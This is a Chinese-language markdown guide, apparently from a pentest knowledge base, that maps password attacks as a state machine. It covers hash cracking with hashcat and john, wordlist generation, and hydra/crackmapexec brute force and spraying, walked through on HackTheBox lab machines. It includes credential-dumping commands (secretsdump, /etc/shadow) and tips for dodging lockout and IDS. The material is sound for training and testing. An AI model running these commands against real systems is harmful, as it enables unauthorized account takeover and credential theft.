

# 密码攻击状态机

## 概述
密码攻击是渗透测试中最常见的攻击手段，分为在线攻击（直接尝试登录）和离线攻击（破解哈希）。本状态机涵盖从哈希获取到密码破解的完整流程。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 获得哈希 | 需要识别类型 | 分析哈希格式 | 确定算法 | hash-identifier, hashid |
| 确定算法 | 离线破解 | 准备字典 | 字典选择 | - |
| 确定算法 | 在线攻击 | 准备目标 | 在线攻击 | - |
| 字典选择 | 使用内置 | 加载 rockyou | 破解工具 | rockyou.txt |
| 字典选择 | 自定义生成 | 生成字典 | 破解工具 | crunch, cewl |
| 字典选择 | 规则变换 | 应用规则 | 破解工具 | hashcat rules |
| 破解工具 | CPU 破解 | 运行 john | 检查结果 | john |
| 破解工具 | GPU 破解 | 运行 hashcat | 检查结果 | hashcat |
| 破解工具 | 在线查询 | 查询数据库 | 检查结果 | hash-lookup |
| 检查结果 | 破解成功 | 提取密码 | 后续利用 | - |
| 检查结果 | 破解失败 | 更换策略 | 字典选择 | - |
| 在线攻击 | 暴力破解 | 逐个尝试 | 检查成功 | hydra, medusa |
| 在线攻击 | 密码喷洒 | 单密码多用户 | 检查成功 | crackmapexec |
| 在线攻击 | 凭证填充 | 已知密码测试 | 检查成功 | hydra |

## 决策树

### 1. 哈希类型识别
```
IF 获得哈希文件
  THEN 运行 hash-identifier <hash>
    IF 识别为 NTLM
      THEN 使用 hashcat -m 1000
    ELSE IF 识别为 MD5
      THEN 使用 hashcat -m 0
    ELSE IF 识别为 SHA-256
      THEN 使用 hashcat -m 1400
    ELSE IF 识别为 bcrypt
      THEN 使用 hashcat -m 3200
    ELSE
      尝试多种模式
```

### 2. 字典选择策略
```
IF 目标是通用系统
  THEN 使用 /usr/share/wordlists/rockyou.txt
ELSE IF 目标是特定网站
  THEN 运行 cewl <url> -d 2 -m 6 -w custom.txt
ELSE IF 需要特定格式
  THEN 运行 crunch 8 8 -t @@@@%%%% -o dict.txt
    (@ = 小写字母, % = 数字)
```

### 3. 破解工具选择
```
IF 有 GPU 且哈希量大
  THEN 使用 hashcat
    hashcat -m <mode> -a 0 hash.txt dict.txt
ELSE IF 只有 CPU
  THEN 使用 john
    john --wordlist=dict.txt hash.txt
ELSE IF 哈希简单
  THEN 尝试在线查询
    访问 crackstation.net 或使用 hash-lookup
```

### 4. 在线攻击策略
```
IF 目标是 SSH/FTP/RDP
  THEN 使用 hydra
    hydra -L users.txt -P pass.txt ssh://target
ELSE IF 目标是 Windows 域
  THEN 使用 crackmapexec
    crackmapexec smb target -u users.txt -p 'Password123!'
      (密码喷洒，避免账户锁定)
ELSE IF 目标是 Web 登录
  THEN 使用 hydra HTTP 模块
    hydra -L users.txt -P pass.txt target http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"
```

### 5. 规则应用
```
IF 字典效果不佳
  THEN 应用 hashcat 规则
    hashcat -m 1000 -a 0 hash.txt dict.txt -r /usr/share/hashcat/rules/best64.rule
      (best64: 常见密码变换规则)
    OR 使用 john 规则
    john --wordlist=dict.txt --rules hash.txt
```

## 实战场景

### 场景 1: Windows NTLM 哈希破解
**HTB 靶机**: Active

**攻击链路**:
1. 通过 SMB 漏洞获得 SAM 数据库
   ```bash
   secretsdump.py domain/user:pass@target
   ```
   输出: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

2. 识别哈希类型
   ```bash
   hash-identifier
   # 输入哈希，识别为 NTLM
   ```

3. 使用 hashcat GPU 破解
   ```bash
   hashcat -m 1000 -a 0 ntlm.txt /usr/share/wordlists/rockyou.txt
   ```
   - `-m 1000`: NTLM 模式
   - `-a 0`: 字典攻击

4. 如果失败，应用规则
   ```bash
   hashcat -m 1000 -a 0 ntlm.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule
   ```

5. 破解成功后使用密码
   ```bash
   psexec.py domain/Administrator:password@target
   ```

### 场景 2: SSH 密码喷洒
**HTB 靶机**: Lame

**攻击链路**:
1. 枚举用户名
   ```bash
   enum4linux -U target
   # 或通过 SMTP
   smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t target
   ```

2. 准备常见密码列表
   ```bash
   cat > common_pass.txt << EOF
   password
   Password123!
   admin
   root
   Welcome1
   EOF
   ```

3. 密码喷洒攻击（避免锁定）
   ```bash
   hydra -L users.txt -p 'Password123!' ssh://target -t 4
   ```
   - `-t 4`: 限制并发，避免触发防护
   - 单密码测试多用户

4. 如果成功，登录系统
   ```bash
   ssh user@target
   ```

### 场景 3: Web 应用密码破解
**HTB 靶机**: Nineveh

**攻击链路**:
1. 从网站生成自定义字典
   ```bash
   cewl http://target -d 3 -m 6 -w custom.txt
   ```
   - `-d 3`: 爬取深度 3 层
   - `-m 6`: 最小单词长度 6

2. 生成密码变种
   ```bash
   john --wordlist=custom.txt --rules --stdout > mutated.txt
   ```

3. 暴力破解 Web 登录
   ```bash
   hydra -l admin -P mutated.txt target http-post-form "/login.php:username=^USER^&password=^PASS^:F=Login failed"
   ```

4. 或使用 Burp Intruder
   - 抓取登录请求
   - 设置 Payload 为 mutated.txt
   - 根据响应长度判断成功

### 场景 4: Linux /etc/shadow 破解
**HTB 靶机**: Beep

**攻击链路**:
1. 获得 shadow 文件（通过 LFI 或提权）
   ```bash
   cat /etc/shadow
   ```
   输出: `root:$6$xyz...:18000:0:99999:7:::`

2. 提取哈希到文件
   ```bash
   echo 'root:$6$xyz...' > shadow.txt
   ```

3. 使用 john 破解
   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
   ```

4. 查看破解结果
   ```bash
   john --show shadow.txt
   ```

5. 使用密码提权
   ```bash
   su root
   # 输入破解的密码
   ```

### 场景 5: 密码规则生成
**HTB 靶机**: Cronos

**攻击链路**:
1. 发现密码策略：8位，必须包含大小写字母和数字
   ```bash
   # 生成符合策略的字典
   crunch 8 8 -t ,@@@@%%% -o policy.txt
   ```
   - `,`: 大写字母
   - `@`: 小写字母
   - `%`: 数字

2. 或使用 maskprocessor
   ```bash
   mp64 -1 ?l?u ?1?1?1?1?1?d?d?d > policy.txt
   ```

3. 使用生成的字典攻击
   ```bash
   hydra -l admin -P policy.txt ssh://target
   ```

## 工具对比

| 工具 | 类型 | 优势 | 劣势 | 使用场景 |
|------|------|------|------|---------|
| **john** | 离线破解 | 自动识别格式，规则强大 | CPU 破解较慢 | 通用哈希破解 |
| **hashcat** | 离线破解 | GPU 加速，速度极快 | 需要手动指定模式 | 大量哈希破解 |
| **hydra** | 在线攻击 | 支持协议多，易用 | 容易触发防护 | 网络服务暴力破解 |
| **medusa** | 在线攻击 | 并发控制好 | 协议支持少于 hydra | 需要精细控制的场景 |
| **crackmapexec** | 在线攻击 | 专注 Windows，密码喷洒 | 仅限 Windows 环境 | 域环境密码测试 |
| **crunch** | 字典生成 | 灵活的模式生成 | 生成文件可能很大 | 特定格式密码生成 |
| **cewl** | 字典生成 | 从网站提取关键词 | 需要目标网站 | 针对性字典生成 |

## 关键技巧

### 1. 避免账户锁定
```bash
# 密码喷洒：单密码测试多用户
crackmapexec smb target -u users.txt -p 'Password123!' --continue-on-success

# 限制尝试速度
hydra -L users.txt -P pass.txt ssh://target -t 1 -w 30
# -t 1: 单线程
# -w 30: 每次尝试间隔 30 秒
```

### 2. 哈希破解优化
```bash
# 使用规则提高成功率
hashcat -m 1000 hash.txt dict.txt -r best64.rule

# 组合攻击
hashcat -m 1000 hash.txt -a 1 dict1.txt dict2.txt
# 将两个字典的单词组合

# 掩码攻击
hashcat -m 1000 hash.txt -a 3 ?u?l?l?l?l?d?d?d?d
# ?u: 大写, ?l: 小写, ?d: 数字
```

### 3. 字典优化
```bash
# 去重和排序
sort -u dict.txt -o dict_unique.txt

# 按长度过滤
awk 'length($0) >= 8 && length($0) <= 12' dict.txt > dict_filtered.txt

# 添加常见后缀
john --wordlist=base.txt --rules --stdout | grep -E '.*[0-9!@#]$' > enhanced.txt
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用慢速攻击避免触发 IDS
- 分布式攻击源（多 IP）
- 使用已泄露密码数据库（凭证填充）
- 针对性字典（社工信息）

**防御者检测指标**:
- 短时间内大量失败登录
- 单 IP 多用户尝试
- 单用户多 IP 尝试
- 非工作时间的登录尝试

## 相关状态机
- [03-web-application-attack.md](03-web-application-attack.md) - Web 登录暴力破解
- [04-active-directory-attack.md](04-active-directory-attack.md) - 域密码攻击
- [06-credential-extraction.md](06-credential-extraction.md) - 哈希获取
- [05-privilege-escalation.md](05-privilege-escalation.md) - 使用破解密码提权
